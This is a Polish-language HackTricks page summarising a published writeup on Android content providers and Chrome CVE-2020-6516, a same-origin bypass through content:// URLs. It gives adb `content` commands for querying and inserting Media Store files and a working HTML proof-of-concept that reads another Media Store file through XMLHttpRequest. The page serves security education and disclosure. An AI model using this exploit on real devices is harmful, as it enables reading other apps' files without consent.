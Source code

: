 {% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

**To jest podsumowanie posta [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)**

### Wyświetlanie plików w Media Store
Aby wyświetlić pliki zarządzane przez Media Store, można użyć poniższego polecenia:
```bash
$ content query --uri content://media/external/file
```
Aby uzyskać bardziej przyjazny dla użytkownika wynik, wyświetlając tylko identyfikator i ścieżkę każdego zindeksowanego pliku:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```
Content providers są izolowane w swoim własnym prywatnym przestrzeni nazw. Dostęp do dostawcy wymaga konkretnego URI `content://`. Informacje o ścieżkach dostępu do dostawcy można uzyskać z manifestów aplikacji lub kodu źródłowego frameworka Androida.

### Dostęp Chrome do dostawców treści
Chrome na Androidzie może uzyskać dostęp do dostawców treści za pośrednictwem schematu `content://`, co pozwala mu na dostęp do zasobów, takich jak zdjęcia czy dokumenty eksportowane przez aplikacje innych firm. Aby to zobrazować, plik można wstawić do Media Store, a następnie uzyskać do niego dostęp za pośrednictwem Chrome:

Wstaw niestandardowy wpis do Media Store:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```
Odkryj identyfikator nowo wstawionego pliku:
```bash
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
Plik można następnie wyświetlić w Chrome, używając adresu URL skonstruowanego z identyfikatora pliku.

Na przykład, aby wylistować pliki związane z konkretną aplikacją:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```
### Chrome CVE-2020-6516: Ominięcie Polityki Takiej Samej Pochodzenia

_**Polityka Takiej Samej Pochodzenia**_ (SOP) to protokół bezpieczeństwa w przeglądarkach, który ogranicza interakcje stron internetowych z zasobami z różnych źródeł, chyba że wyraźnie dozwolone przez politykę Cross-Origin-Resource-Sharing (CORS). Polityka ta ma na celu zapobieganie wyciekom informacji i fałszywym żądaniom między witrynami. Chrome traktuje `content://` jako lokalny schemat, co implikuje surowsze zasady SOP, gdzie każdy lokalny URL schematu jest traktowany jako osobne pochodzenie.

Jednak CVE-2020-6516 była luką w Chrome, która pozwalała na ominięcie zasad SOP dla zasobów ładowanych za pomocą URL `content://`. W efekcie kod JavaScript z URL `content://` mógł uzyskać dostęp do innych zasobów ładowanych za pomocą URL `content://`, co stanowiło istotny problem bezpieczeństwa, szczególnie na urządzeniach z Androidem działających w wersjach wcześniejszych niż Android 10, gdzie nie wprowadzono przechowywania w zakresie.

Poniższy dowód koncepcji demonstruje tę lukę, gdzie dokument HTML, po przesłaniu pod **/sdcard** i dodaniu do Media Store, używa `XMLHttpRequest` w swoim JavaScript, aby uzyskać dostęp do i wyświetlić zawartość innego pliku w Media Store, omijając zasady SOP.

Proof-of-Concept HTML:
```xml
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

